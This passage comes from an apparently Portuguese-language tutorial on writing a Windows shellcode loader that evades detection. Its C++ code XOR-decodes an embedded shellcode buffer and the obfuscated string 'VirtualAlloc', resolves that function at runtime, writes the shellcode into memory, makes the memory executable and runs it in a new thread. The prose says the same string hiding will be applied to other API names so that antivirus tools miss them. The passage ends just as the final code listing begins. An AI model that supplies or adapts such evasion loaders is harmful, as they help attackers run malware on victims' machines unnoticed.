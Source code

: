 ```cpp
    for (int i = 0; i < data_len; i++) {
        if (a == key_len - 1) a = 0;

        data[i] = data[i] ^ key[a];
        a++;
    }
}

int main(void) {
    DWORD oldProtect = 0;
    BOOL rx;
    HANDLE thread;

    // deXOR da VirtualAlloc
    XOR((char *) cVA, cVALen, xor_key, sizeof(xor_key));
    // deXOR do shellcode
    XOR((char *) shellcode, shellcode_size, xor_key, sizeof(xor_key));

    pVA = GetProcAddress(GetModuleHandle("kernel32.dll"), cVA);

    void *exec_mem = pVA(0, shellcode_size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);


    RtlMoveMemory(exec_mem, shellcode, shellcode_size);

    rx = VirtualProtect(exec_mem, shellcode_size, PAGE_EXECUTE_READ, &oldProtect);

    if ( rx != 0 ) {
            thread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
            WaitForSingleObject(thread, -1);
    }

    return 0;
}
```

Com isso, a *string* `VirtualAlloc` não está mais presente no programa.

![](/img/posts/Pasted%20image%2020240724155019.png)

Seguindo os mesmos passos, faremos nas funções `VirtualProtect`, `CreateThread`,  `WaitForSingleObject` e `RtlMoveMemory`. O código final fica da seguinte forma:

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>

```